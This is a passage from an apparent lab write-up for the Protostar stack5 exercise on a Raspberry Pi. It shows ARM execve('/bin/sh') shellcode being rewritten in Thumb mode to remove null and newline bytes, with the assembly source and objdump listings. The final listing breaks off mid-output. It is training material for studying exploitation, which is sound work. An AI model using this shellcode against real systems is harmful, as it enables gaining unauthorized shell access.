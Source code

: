 Before to use our shellcode, we have to introduce an optimization in order to avoid bad bytes as `(0x0)`, `(0xa)` and `(0xd)`.  
With the support of `objdump` we can have an idea about the optimization we have to introduce.

```code
pi@raspberrypi:~/protostar/stack5 $ objdump -d s

s:     file format elf32-littlearm


Disassembly of section .text:

00010054 <_start>:
   10054:	e28f000c 	add	r0, pc, #12
   10058:	e3a01000 	mov	r1, #0
   1005c:	e3a02000 	mov	r2, #0
   10060:	e3a0700b 	mov	r7, #11
   10064:	ef000000 	svc	0x00000000
   10068:	6e69622f 	.word	0x6e69622f
   1006c:	0068732f 	.word	0x0068732f

```

As we can see, there are a lot of bad bytes to remove **_:(_**  
To remove bad bytes we can switch from ARM Mode to Thumb, in order to reduce the bytes used and then we can try to replace some instructions with different instructions which do the same task like:  
`mov	r1, #0  ==  eor r1, r1, r1`    
`mov	r1, #0  ==  sub r1, r1, r1`  
and we replace manually the `\0` value in the `.ascii` string, using `strb r2, [r0, #7]` which will replace the `X` char.

```code
.section .text
.global _start

_start:
        .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        sub r1, r1, r1
        sub r2, r2, r2
        strb r2, [r0,#7]
        mov r7, #11
        svc #1

.ascii "/bin/shX"
```

```code
pi@raspberrypi:~/protostar/stack5 $ as shell_all.s -o shell_all.o
pi@raspberrypi:~/protostar/stack5 $ objdump -d shell_all.o

s.o:     file format elf32-littlearm


Disassembly of section .text:

00000000 <_start>:
   0:	e28f3001 	add	r3, pc, #1
   4:	e12fff13 	bx	r3
   8:	a002         add	r0, pc, #8	; (adr r0, 14 <_start+0x14>)
   a:	4049     	eors	r1, r1
   c:	4052     	eors	r2, r2
```